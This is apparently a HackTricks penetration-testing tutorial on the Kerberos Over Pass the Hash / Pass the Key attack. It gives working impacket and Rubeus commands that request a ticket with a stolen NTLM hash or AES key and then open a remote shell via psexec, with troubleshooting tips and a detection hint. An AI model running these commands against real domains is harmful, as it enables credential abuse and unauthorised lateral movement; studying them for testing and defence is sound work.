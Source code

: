 # Over Pass the Hash/Pass the Key

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Overpass The Hash/Pass The Key (PTK)

This attack aims to **use the user NTLM hash or AES keys to request Kerberos tickets**, as an alternative to the common Pass The Hash over NTLM protocol. Therefore, this could be especially **useful in networks where NTLM protocol is disabled** and only **Kerberos is allowed** as authentication protocol.

In order to perform this attack, the **NTLM hash (or password) of the target user account is needed**. Thus, once a user hash is obtained, a TGT can be requested for that account. Finally, it is possible to **access** any service or machine **where the user account has permissions**.

```
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
```

You can **specify** `-aesKey [AES key]` to specify to use **AES256**.\
You can also use the ticket with other tools like: as smbexec.py or wmiexec.py

Possible problems:

* _PyAsn1Error(‘NamedTypes can cast only scalar values’,)_ : Resolved by updating impacket to the lastest version.
* _KDC can’t found the name_ : Resolved by using the hostname instead of the IP address, because it was not recognized by Kerberos KDC.

```
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
.\PsExec.exe -accepteula \\labwws02.jurassic.park cmd
```

This kind of attack is similar to **Pass the Key**, but instead of using hashes to request for a ticket, the ticket itself is stolen and used to authenticate as its owner.

{% hint style="warning" %}
When a TGT is requested, event `4768: A Kerberos authentication ticket (TGT) was requested` is generated. You can see from the output above that the KeyType is **RC4-HMAC** (0x17), but the default type for Windows is now **AES256** (0x12).
{% endhint %}

```bash
.\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec
```

## References

* [https://www.tarlogic.com/es/blog/como-atacar-kerberos/](https://www.tarlogic.com/es/blog/como-atacar-kerberos/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
